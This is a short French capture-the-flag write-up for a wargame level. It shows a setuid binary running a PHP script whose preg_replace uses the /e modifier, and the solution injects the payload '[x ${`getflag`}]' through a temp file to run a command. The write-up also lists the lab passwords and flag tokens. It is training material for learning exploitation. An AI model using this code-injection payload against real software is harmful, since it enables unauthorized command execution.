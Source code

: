 # Level06: Exploit execution

> login:password -> *`level06:viuaaale9huek52boumoomioc`*
```
:~$ su level06
Password:viuaaale9huek52boumoomioc
```
---

```
:~$ pwd
/home/user/level06
```

```
:~$ ls -la
...
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
...
```

Le Home contient un binaire ainsi qu'un script php:

```
:~$ cat level.php (ici j'ai indenté le code pour mieux le comprendre)
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>

:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

./level06 test
PHP Warning:  file_get_contents(test): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4

```

On remarque que le binaire veux exécuter le fichier envoyé en paramètre. On va donc créer un script qu'il pourra alors éxécuter

```
:~$ echo '[x ${`getflag`}]' > /tmp/flag06

:~$ ./level06 /tmp/flag06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

```

Le flag nous permet de se connecter au level07
`level07:wiok45aaoguiboiki2tuin6ub`